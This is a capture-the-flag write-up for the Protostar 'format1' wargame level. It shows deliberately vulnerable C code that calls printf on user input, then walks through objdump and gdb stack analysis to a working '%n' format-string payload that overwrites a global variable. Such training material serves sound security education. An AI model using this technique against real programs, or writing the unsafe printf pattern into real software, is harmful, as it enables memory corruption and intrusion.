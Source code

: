 #### Protostar Format1

##### About
This level shows how format strings can be used to modify arbitrary memory locations.

###### Hints
* objdump -t is your friend, and your input string lies far up the stack :)

This level is at /opt/protostar/bin/format1

##### Source code
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void vuln(char *string)
{
  printf(string);
  
  if(target) {
      printf("you have modified the target :)\n");
  }
}

int main(int argc, char **argv)
{
  vuln(argv[1]);
}
```

Try to locate the global variant "target", and use format string "%n" to write it.

##### Solution
```
$ objdump -t format1 | grep target
08049638 g       0 .bss    00000004            target

$ gdb format1
......
(gdb) disas vuln
Dump of assembler code for function vuln:
0x080483f4 <+0>:    push   %ebp
0x080483f5 <+1>:    mov    %esp,%ebp
0x080483f7 <+3>:    sub    $0x18,%esp
0x080483fa <+6>:    mov    0x8(%ebp),%eax
0x080483fd <+9>:    mov    %eax,(%esp)             ; <-- store the pointer of our inputs 
0x08048400 <+12>:   call   0x8048320 <printf@plt>
0x08048405 <+17>:   mov    0x8049638,%eax
0x0804840a <+22>:   test   %eax,%eax               ; <-- check the value of target
0x0804840c <+24>:   je     0x804841a <vuln+38>
0x0804840e <+26>:   movl   $0x8048500,(%esp)
0x08048415 <+33>:   call   0x8048330 <puts@plt>
0x0804841a <+38>:   leave
0x0804841b <+39>:   ret
End of assembler dump.
(gdb) b *0x08048400
Breakpoint 1 at 0x08048400: file format1/format1.c, line 10.
(gdb) r 'AAAA%x'
Starting program: /opt/protostar/bin/format1 AAAA%x
Breakpoint 1, 0x08048400 in vuln (string=0xbffffeea "AAAA%x") at format1/format1.c:10
(gdb) x/2x $esp
0xbffffce0:     0xbffffeea      0x0804960c
(gdb) x/s 0xbffffeea
0xbffffeea:      "AAAA%x"
(gdb) p (0xbffffeea - 0xbffffce0) / 4
$1 = 130
......
(gdb) r 'AAAA%130$x'
Breakpoint 1, 0x08048400 in vuln (string=0xbffffeea "AAAA%130$x") at format1/format1.c:10
(gdb) x/2x $esp
0xbffffce0:     0xbffffee6      0x0804960c
(gdb) x/2x 0xbffffee6
0xbffffee6:     0x41414141      0x30333125
(gdb) x/2x 0xbffffce0 + 130 * 4
0xbffffee8:     0x31254141      0x78243033    ; <-- memory is not aligned
(gdb) x/2x 0xbffffce0 + 129 * 4
0xbffffee4:     0x41410031      0x31254141    ; <-- memory is not aligned
(gdb) quit
```

I try many payloads under user account, but it seems that somehow the memory is not aligned, or though the payloads do work under gdb but fail without debugger, then I switch to root account.

```
root@protostar:/opt/protostar/bin# ./format1 'AAAA%126$x'
AAAA41414141                                                   <-- and this happens ╮(╯_╰)╭
root@protostar:/opt/protostar/bin# ./format1 `python -c "print '\x38\x96\x04\x08'"`'%126$n'
8you have modified the target :)
```

##### Reference
<https://thesprawl.org/research/exploit-exercises-protostar-format/#format-1>  
<http://louisrli.github.io/blog/2012/08/29/protostar-format0/>  
<http://en.wikipedia.org/wiki/Printf_format_string>
